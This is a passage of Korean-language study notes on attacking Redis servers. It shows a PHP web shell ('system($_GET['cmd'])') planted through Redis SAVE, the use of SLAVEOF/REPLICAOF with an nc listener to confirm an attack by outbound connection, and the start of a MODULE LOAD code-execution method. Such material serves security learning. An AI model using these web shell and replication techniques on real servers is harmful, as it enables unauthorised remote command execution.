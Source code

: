 ```bash
#SAVE 명령어를 통한 웹셸 삽입 결과

$ ls -al redis.php 
-rw-rw---- 1 redis redis 57 May 17 16:59 redis.php
$ xxd redis.php 
00000000: 5245 4449 5330 3030 36fe 0000 0474 6573  REDIS0006....tes
00000010: 741e 3c3f 7068 7020 7379 7374 656d 2824  t.<?php system($
00000020: 5f47 4554 5b27 636d 6427 5d29 3b20 3f3e  _GET['cmd']); ?>
00000030: ffef 0fe2 9f24 c9b8 a3                   .....$...
```


##### Redis 명령어: SLAVEOF / REPLICAOF
결론부터 말하면 실질적인 공격이 아닌 공격 성공 여부를 확인하기 위한 방법임
다른 Redis의 노드를 현재 명령어를 실행하는 노드의 마스터 노드로 지정할 수 있음
지정한 노드와 연결을 맺으면, 마스터 노드의 데이터를 복제하고 저장함
아래는 마스터 노드를 복제하는 명령어의 예시

```
#마스터 노드 복제 명령어 예시
SLAVEOF host port
SLAVEOF No one
REPLICAOF host port
REPLICAOF No one
```

해당 명령어를 실행하면 마스터 노드에 네트워크 연결을 맺음
해당 과정에서 발생하는 네트워크 트래픽을 통해 Redis 공격의 성공 여부를 원격으로 확인할 수 있음

아래는 “127.0.0.1” 호스트의 8888 포트로 연결하는 명령어와 호스트에 해당하는 서버에서 지정한 포트를 바인딩하는 명령어를 실행한 모습
포트를 바인딩하는 서버의 결과를 살펴보면, 노드의 상태를 확인하기 위한 데이터를 수신한 것을 확인할 수 있음

```
#Redis 서버
SLAVEOF 127.0.0.1 8888
REPLICAOF 127.0.0.1 8888
```

```bash
#복제할 서버
$ nc -l 8888 -kv
Listening on [0.0.0.0] (family 0, port 8888)
Connection from [127.0.0.1] port 8888 [tcp/*] accepted (family 2, sport 52613)
PING
```

***현대 사회에서는 Slave라는 용어의 사용을 지양하고 있기 때문에 Redis 5.0 버전부터 SLAVEOF 명령어를 대체하기 위해 REPLICAOF 명령어가 새롭게 등장했음 그러나 최신 버전에서도 이전 버전의 명령어를 사용하는 애플리케이션을 호환하기 위해 SLAVEOF 명령어는 여전히 동작함***

##### Redis 명령어: MODULE LOAD
Redis 4.0 버전부터 새로운 라이브러리를 추가해 사용할 수 있도록 module load 명령어를 제공함
이용자는 RedisModuleSDK를 기반하여 공유 라이브러리를 제작하고, 
해당 명령어를 통해 라이브러리를 로드하여 임의 코드를 실행할 수 있음

아래는 RedisModuleSDK를 기반한 라이브러리 코드의 예시
이와 같이 작성된 소스 코드를 컴파일하고, Redis 클라이언트에서 module load를 이용해 모듈 코드를 실행할 수 있음
